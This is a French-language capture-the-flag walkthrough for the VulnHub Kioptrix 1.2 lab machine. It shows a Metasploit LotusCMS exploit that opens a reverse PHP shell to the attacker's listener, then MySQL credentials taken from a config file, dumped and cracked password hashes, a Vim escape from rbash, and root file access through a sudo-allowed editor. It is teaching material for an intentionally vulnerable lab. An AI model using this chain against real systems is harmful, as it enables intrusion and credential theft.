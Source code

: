 # Solution du CTF Kioptrix: 1.2 de VulnHub

Voici la solution du [CTF Kioptrix 1.2](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/) qui date d'avril 2011  

CMS en mousse
-------------

```plain
Nmap scan report for 192.168.1.28
Host is up (0.00019s latency).
Not shown: 65532 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp   open     http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Ligoat Security - Got Goat? Security ...
9874/tcp filtered unknown
```

Sur le serveur Apache se trouve un CMS que [Wappalizer](https://www.wappalyzer.com/) ne reconnaît pas mais si on se rend sur la page de login on peut lire *Proudly Powered by: LotusCMS*  

On trouve facilement un [exploit Metasploit](https://www.exploit-db.com/exploits/18565/) pour ce CMS et comme la *DisclosureDate* est au 3 mars 2011 dans le code de l'exploit ça en fait un très bon candidat...  

Au passage il y a aussi sur le site une galerie PHP dont on trouve facilement le nom (*Gallarific*) grâce à la présence du balise méta. Il existe différents exploits là aussi trouvables sur *exploit-db*.  

Grace au module Metasploit l'exploitation est aisée :  

```plain
msf exploit(lcms_php_exec) > show options

Module options (exploit/multi/http/lcms_php_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.1.28     yes       The target address
   RPORT    80               yes       The target port
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   URI      /                yes       URI
   VHOST    kioptrix3.com    no        HTTP server virtual host

Payload options (php/reverse_php):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.3      yes       The listen address
   LPORT  9999             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic LotusCMS 3.0

msf exploit(lcms_php_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.3:9999 
[*] Using found page param: /index.php?page=index
[*] Sending exploit ...
[*] Command shell session 3 opened (192.168.1.3:9999 -> 192.168.1.28:40897) at 2018-02-14 21:04:35 +0100
id;uname -a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
```

On trouve deux utilisateurs sur le système: *dreg* et *loneferret*.  

Ainsi que les identifiants SQL dans la configuration de la galerie (rien pour le CMS qui est file-based) :  

```php
$GLOBALS["gallarific_mysql_server"] = "localhost";
$GLOBALS["gallarific_mysql_database"] = "gallery";
$GLOBALS["gallarific_mysql_username"] = "root";
$GLOBALS["gallarific_mysql_password"] = "fuckeyou";
```

L'historique de l'un des utilisateurs est lisible :  

```plain
www-data@Kioptrix3:/home$ cat loneferret/.bash_history
sudo ht
exit
```

Je décide de faire un tour du côté du MySQL :  

```plain
www-data@Kioptrix3:/etc$ mysql -u root -p
mysql -u root -p
Enter password: fuckeyou

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| gallery            | 
| mysql              | 
+--------------------+
3 rows in set (0.00 sec)

mysql> use gallery;
use gallery;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+----------------------+
| Tables_in_gallery    |
+----------------------+
| dev_accounts         | 
| gallarific_comments  | 
| gallarific_galleries | 
| gallarific_photos    | 
| gallarific_settings  | 
| gallarific_stats     | 
| gallarific_users     | 
+----------------------+
7 rows in set (0.00 sec)

mysql> select * from dev_accounts;
select * from dev_accounts;
+----+------------+----------------------------------+
| id | username   | password                         |
+----+------------+----------------------------------+
|  1 | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 | 
|  2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e | 
+----+------------+----------------------------------+
2 rows in set (0.00 sec)

mysql> select * from gallarific_users;
select * from gallarific_users;
+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
| userid | username | password | usertype  | firstname | lastname | email | datejoined | website | issuperuser | photo | joincode |
+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
|      1 | admin    | n0t7t1k4 | superuser | Super     | User     |       | 1302628616 |         |           1 |       |          | 
+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
1 row in set (0.00 sec)
```

Passwords faibles
-----------------

On retrouve facilement les mots de passe des utilisateurs qui sont respectivement *Mast3r* pour *dreg* et *starwars* pour *loneferret*.  

Ca tombe bien, dreg a le même mot de passe pour le système :  

```plain
$ ssh dreg@192.168.1.28
dreg@192.168.1.28's password: 
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
dreg@Kioptrix3:~$ sudo -l
[sudo] password for dreg: 
Sorry, user dreg may not run sudo on Kioptrix3.
dreg@Kioptrix3:~$ cd ..
rbash: cd: restricted
```

On est dans un environnement restreint (*rbash*) qui ne nous permet pas de sortir du dossier courant.  

Heureusement on peu en sortir en passant par Vim via les commandes suivantes (définir un shell différent et l'exécuter) :  

```plain
:set shell=/bin/bash
:shell
```

Mais en réalité tout celà ne sert à rien puisque le mot de passe pour *loneferret* est aussi bon :  

```plain
dreg@Kioptrix3:~$ su loneferret         
Password: 
loneferret@Kioptrix3:/home/dreg$ id
uid=1000(loneferret) gid=100(users) groups=100(users)
```

C'est du gâteau
---------------

On sait que l'utilisateur peut lancer [HT Editor](http://devloop.users.sourceforge.net/index.php?article25/tutoriel-d-utilisation-de-ht-editor) en tant que root.  

*HT* est un désassembler mais aussi un éditeur de texte classique. Il suffit donc d'aller ouvrir le dossier /root puis de lire le flag (*Congrats.txt*).  

![Kioptrix3 flag opened with HT Editor](https://raw.githubusercontent.com/devl00p/blog/master/images/kioptrix/kioptrix3_ht.png)  

Une erreur *Error opening terminal: xterm-256color* empêchait tout de même d'exécuter *HT*, il fallait y rémédier avec la commande *export TERM=xterm*.  


*Published February 22 2018 at 18:02*